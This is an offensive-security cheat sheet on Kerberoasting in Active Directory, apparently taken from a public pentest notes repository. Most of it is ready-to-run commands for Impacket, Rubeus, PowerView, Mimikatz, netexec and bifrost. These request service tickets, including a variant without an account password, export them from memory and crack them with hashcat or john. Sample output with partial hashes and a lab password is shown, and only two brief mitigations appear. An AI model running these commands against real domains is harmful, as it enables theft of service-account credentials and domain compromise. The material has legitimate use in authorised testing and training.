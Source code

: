 # Roasting - Kerberoasting

> "A service principal name (SPN) is a unique identifier of a service instance. SPNs are used by Kerberos authentication to associate a service instance with a service logon account. " - [MSDN](https://docs.microsoft.com/fr-fr/windows/desktop/AD/service-principal-names)

Any valid domain user can request a kerberos ticket (ST) for any domain service. Once the ticket is received, password cracking can be done offline on the ticket to attempt to break the password for whatever user the service is running as.

## Linux

### [GetUserSPNs](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) from Impacket Suite

* **List All SPN Accounts**  
  ```bash
  Impacket-GetUserSPNs -dc-ip <DC IP> <domain>/<user>
  ```
* **Request all TGS Tickets** 
  ```bash
  $ impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request

  Impacket v0.9.17 - Copyright 2002-2018 Core Security Technologies

  ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet      LastLogon           
  --------------------  -------------  --------------------------------------------------------  -------------------  -------------------
  active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 21:06:40  2018-12-03 17:11:11 

  $krb5tgs$23$*Administrator$ACTIVE.HTB$active/CIFS~445*$424338c0a3c3af43[...]84fd2
  ```
* **Request a Single TGS ticket**  
  ```bash
  Impacket-GetUserSPNs -dc-ip <dc ip> <domain>/<user> -request-user <target user>
  ```
* **Save the ticket to an output file**  
  ```bash
  Impacket-GetUserSPNs -dc-ip <dc ip> <domain>/<user> -request-user <target user> -outputfile <filename>
  ```

 ### [targetedKerberoast](https://github.com/ShutdownRepo/targetedKerberoast)
* **for each user without SPNs, it tries to set one (abuse of a write permission on the servicePrincipalName attribute),**  
  **print the "kerberoast" hash, and delete the temporary SPN set for that operation**  
  ```bash
  targetedKerberoast.py [-h] [-v] [-q] [-D TARGET_DOMAIN] [-U USERS_FILE] [--request-user username] [-o OUTPUT_FILE] [--use-ldaps] [--only-abuse] [--no-abuse] [--dc-ip ip address] [-d DOMAIN] [-u USER] [-k] [--no-pass | -p PASSWORD | -H [LMHASH:]NTHASH | --aes-key hex key]
  ```
## Windows

### Enumeration
* **Using setspn.exe to enumerate SPN's**   
  ```powershell
  setspn.exe -Q */*
  ```
* **Powerview**  
    ```powershell
    Get-DomainUser -SPN
    ```
### Attack
* **Powershell**  
  ```powershell
  Add-Type -AssemblyName System.IdentityModel
  New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList <SPN Name>
  ```
* **Powerview**  
    ```powershell
    Invoke-Kerberoast
    ```
    ```powershell
    #Get all SPN's
    Get-DomainUser * -SPN | Get-DomainSPNTicket -format Hashcat | export-csv .\tgs.csv -notypeinformation
    cat tgs.csv

    #Get Single User SPN
    Get-DomainUser -Identity <username> | Get-DomainSPNTicket -Format Hashcat
    
    #Get Kerberoast Hash of a single user
    Request-SPNTicket -SPN "MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local" -Format Hashcat
    ```
* **Rubeus**  
    ```powershell
    Rubeus.exe kerberoast /nowrap
    ```
* **Retrieving All Tickets Using setspn.exe**  
  Caution: This will pull all computer accounts as well, so use with caution
  ```powershell
  setspn.exe -T <domain> -Q */* | Select-String '^CN' -Context 0,1 | % {New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
  ```
* **Extracting the tickets from Memory w/ Mimikatz**  
  ```powershell
  mimikatz # base64 /out:true # If you do not specify this, it will dump the tickets into .kirbi files
  isBase64InterceptInput  is false
  isBase64InterceptOutput is true

  mimikatz # kerberos::list /export
  ```
* **Prepare the Base64 Blob for cracking**
  ```powershell  
  echo "<base64blob>" | tr-d \\n
  ```
* **Placing the Output into a .kirbi file**  
  ```bash
  cat <encoded file> | base64 -d > <file>.kirbi
  ```
* **Ticket Extraction with kirbi2john.py**  
  ```bash
  kirbi2john.py sqldev.kirbi
  ```
* **Modify the crack_file for Hashcat**  
  ```bash
  sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
  ```
* **Crack with Hashcat**  
  ```bash
  hashcat -a 0 -m 13100 <hashfile> <wordlist>
  ```

* **netexec Module**  

  ```powershell
  $ netexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 --kerberoast output.txt
  LDAP        10.0.2.11       389    dc01           [*] Windows 10.0 Build 17763 x64 (name:dc01) (domain:lab.local) (signing:True) (SMBv1:False)
  LDAP        10.0.2.11       389    dc01           $krb5tgs$23$*john.doe$lab.local$MSSQLSvc/dc01.lab.local~1433*$efea32[...]49a5e82$b28fc61[...]f800f6dcd259ea1fca8f9
  ```

* **[Rubeus](https://github.com/GhostPack/Rubeus)**  

  ```powershell
  # Stats
  Rubeus.exe kerberoast /stats
  -------------------------------------   ----------------------------------
  | Supported Encryption Type | Count |  | Password Last Set Year | Count |
  -------------------------------------  ----------------------------------
  | RC4_HMAC_DEFAULT          | 1     |  | 2021                   | 1     |
  -------------------------------------  ----------------------------------

  #All accounts with the ldap filter set to "1"
  .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap #/nowrap keeps line breaks out of crackable hash

  
  # Kerberoast (RC4 ticket)
  Rubeus.exe kerberoast /creduser:DOMAIN\JOHN /credpassword:MyP@ssW0RD /outfile:hash.txt

  # Kerberoast (AES ticket)
  # Accounts with AES enabled in msDS-SupportedEncryptionTypes will have RC4 tickets requested.
  Rubeus.exe kerberoast /tgtdeleg

  # Kerberoast (RC4 ticket)
  # The tgtdeleg trick is used, and accounts without AES enabled are enumerated and roasted.
  Rubeus.exe kerberoast /rc4opsec
  ```

* **[PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)**  

### Mac(osX)
* **[bifrost](https://github.com/its-a-feature/bifrost) on macOS machine**  

  ```powershell
  ./bifrost -action asktgs -ticket doIF<...snip...>QUw= -service host/dc1-lab.lab.local -kerberoast true
  ```

## Cracking w/ Hashcat
* **Crack the ticket using the correct hashcat mode (`$krb5tgs$23`= `etype 23`)**  

| Mode    | Description  |
|---------|--------------|
| `13100` | Kerberos 5 TGS-REP etype 23 (RC4) |
| `19600` | Kerberos 5 TGS-REP etype 17 (AES128-CTS-HMAC-SHA1-96) |
| `19700` | Kerberos 5 TGS-REP etype 18 (AES256-CTS-HMAC-SHA1-96) |

```powershell
./hashcat -m 13100 -a 0 kerberos_hashes.txt crackstation.txt
./john --wordlist=/opt/wordlists/rockyou.txt --fork=4 --format=krb5tgs ~/kerberos_hashes.txt
```
## Kerberoasting w/o an Account Password
* **Requirements**  
  1. Username of an account wiht pre-auth disabled (DONT_REQ_PREAUTH)
  2. Target SPN or list of SPN's

* **The Attack**  
  1. Execute Rubeus in creatnetonly
     ```powershell
     Rubeus.exe creatnetonly /program:cmd.exe /show
     ```
  2. Perform the attack with /nopreauth
     ```powershell
     Rubeus.exe kerberoast /nopreauth:<username> /domain:<domain> /spn:<SPN> /nowrap
     # Instead of /spn, we can use /spns:listofspns.txt and try multiple SPN's
     ```
**Mitigations**:

* Have a very long password for your accounts with SPNs (> 32 characters)
* Make sure no users have SPNs

## References

* [Hack The Box Academy](https://academy.hackthebox.com/module/143/section/1456)
* [Abusing Kerberos: Kerberoasting - Haboob Team](https://www.exploit-db.com/docs/english/45051-abusing-kerberos---kerberoasting.pdf)
* [Invoke-Kerberoast - Powersploit Read the docs](https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/)
* [Kerberoasting - Part 1 - Mubix “Rob” Fuller](https://room362.com/post/2016/kerberoast-pt1/)
* [Post-OSCP Series Part 2 - Kerberoasting - 16 APRIL 2019 - Jon Hickman](https://0metasecurity.com/post-oscp-part-2/)
* [Training - Attacking and Defending Active Directory Lab - Altered Security](https://www.alteredsecurity.com/adlab)

# Original Notes from [SwisskyRepo](https://github.com/swisskyrepo/InternalAllTheThings)
